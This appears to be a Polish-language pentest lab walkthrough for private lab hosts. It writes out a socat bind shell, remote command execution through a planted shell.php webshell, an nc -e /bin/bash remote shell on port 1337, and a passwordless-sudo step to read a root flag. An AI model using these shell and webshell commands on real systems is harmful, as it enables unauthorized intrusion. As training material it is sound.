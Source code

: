 `Bind Shell (socat)`
Celem zadania jest uruchomienie zdalnej powłoki bash na serwerze
192.168.100.6 za pomocą techniki bind shell i narzędzia socat.  
Serwer powinien nasłuchiwać na porcie 20003/tcp, a student nawiązać połączenie
do serwera i uzyskać dostęp do zdalnej powłoki

```
Serwer: socat TCP-LISTEN:20003,reuseaddr,fork EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
Student: socat FILE:`tty`,raw,echo=0 TCP:192.168.100.6:20003
```

### Ćwiczenia pentest
`Lynx`
Celem zadania jest wykorzystanie przeglądarki internetowej Lynx do wyświetlenia strony http://192.168.200.56/
`Lynx` jest to przeglądarka internetowa, która działa w trybie tekstowym.
Przydaje się, gdy nie mamy możliwości skorzystania ze środowiska graficznego do wyświetlenia danej strony www.  

Uwaga! Maszyna192.168.200.56jest widoczna tylko z maszyny 192.168.100.6.
NIE możnasię doniej połączyć z poziomu Kali studenta w VPN.
`student@remote-shells: lynx 192.168.200.56`

`.bash_history`
Celem zadania jest odczytanie pliku .bash_history na serwerze webowym. Można 
wykorzystać do tego przeglądarkę Lynx z poprzedniego zadania.

`Zdalne wykonanie komend (RCE)`
Celem zadania jest wykorzystanie komendy odczytanej w .bash_history
do zdalnego wykonania komend na serwerze.
`student@remote-shells: curl 'http://192.168.200.56/shell.php?x=id%20webadmin'`
Uwaga! Parametr x należy zakodować jako URL (%20to kod ASCII spacji w hex)

`Zdalna powłoka`
Celem zadania jest nawiązanie połączenia reverse shell lub bind shell na porcie
1337 z maszyną 192.168.200.56. Na maszynie dostępna jest usługa webowa,
którą można podejrzeć za pomocą przeglądarki Lynx.
W pliku .bash_history znajdziemy przykładowe użycie webshella o nazwie
shell.php. Możemy zmienić komendę „id” na dowolną zdalną powłokę, którą znamy.  

```
student@remote-shells (terminal 1): curl 'http://192.168.200.56/shell.php?x=nc+-e+/bin/bash+-lvp+1337' #komenda powinna „wisieć”.
student@remote-shells (terminal 2): nc 192.168.200.56 1337
```

`Flaga Roota`
Ostatnim krokiem jest odczytanie flagi ukrytej w katalogu domowym użytkownika
root. Użytkownik jest w grupie sudo oraz może używać sudo bez hasła.
```
id #grupa sudo
sudo -l
sudo su
ls -al /root
cat /root/root.txt

id #grupa sudo:
Wyświetla informacje o bieżącym użytkowniku, takie jak UID (User ID), GID (Group ID) i grupy, do których należy.
Jeśli dodasz komentarz #grupa sudo, to jest to tylko przypis informacyjny lub dokumentacyjny i nie wpływa na działanie polecenia.

sudo -l:
Wyświetla listę poleceń, które użytkownik może uruchamiać jako root lub inny użytkownik bez podawania hasła lub z nim.
```
___